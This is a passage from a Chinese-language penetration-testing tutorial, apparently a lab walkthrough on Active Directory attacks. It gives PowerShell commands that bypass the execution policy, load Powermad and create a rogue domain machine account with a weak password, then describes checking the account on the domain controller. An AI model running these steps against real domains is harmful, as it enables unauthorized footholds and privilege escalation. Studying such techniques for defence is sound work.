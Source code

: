 其实这里我一直觉得有一个坑，CS是没交互的功能的，那么如何执行交互呢，所以可能还是需要将会话转交给msf来执行。

```
Set-ExecutionPolicy Bypass -Scope Process   ##更改策略
import-module .\Powermad.ps1             ##执行脚本
New-MachineAccount -MachineAccount test1 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ##创建一个用户为test1的，然后密码是123456
```

![image-20230807093513649](assets/image-20230807093513649-17299573280133.png)

### 查看增加情况

这里在实际操作中是看不到增加情况的，但是这里是演示所以可以看一下，在域控是是否增加了一个用户。

![image-20230807093853570](assets/image-20230807093853570-17299573280135.png)
